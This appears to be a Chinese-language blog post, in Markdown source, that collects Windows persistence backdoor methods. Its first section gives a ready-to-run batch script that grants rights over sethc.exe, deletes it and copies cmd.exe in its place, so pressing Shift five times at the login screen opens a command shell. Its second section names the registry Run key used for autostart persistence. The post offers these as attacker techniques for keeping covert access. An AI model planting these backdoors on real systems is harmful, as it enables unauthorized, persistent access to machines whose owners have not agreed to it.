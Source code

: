 ```yaml
---
layout: post
title: 持久化后门维持-Windows篇(长期更新)
---
```


> # 文章长期更新，用来统计收集后门维持的各种方法。



## 0x01 shift后门(替换系统文件)

通过修改`setch.exe`来达到持久化后门

在低版本的windows中，我们可以直接把 *C:\Windows\System32\\* 下 *setch.exe*

替换成我们的后门程序，在登陆界面按5次shift即可出现cmd

![0x01](https://tva1.sinaimg.cn/large/00831rSTly1gcxuu947nsj31500dmabt.jpg)

![0x02](https://tva1.sinaimg.cn/large/00831rSTly1gcy1rc9ccsj314k0lq411.jpg)



![0x03](https://tva1.sinaimg.cn/large/00831rSTly1gcxwxpnwzoj30hy0i6ab8.jpg)

```bash
@echo off
c:
cd\
cd Windows\System32
icacls sethc.exe /grant Administrator:f
del sethc.exe 
copy cmd.exe sethc.exe
pause&&exit
```

保存为.bat文件运行即可留下shift后门

---

###  0x02 注册表自启动

> 最常见的在指定键值添加一个新的键值类型为REG_SZ,数据项中添写需要运行程序的路径即可以启动，此类操作一些较为敏感容易被本地AV拦截，目前也是较为常见的一种方式。

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microft\windows\currentversion\run
```

<img src="https://tva1.sinaimg.cn/large/00831rSTly1gcy2lfca5ej32ls0n617q.jpg" alt="0x04" style="zoom:150%;" />



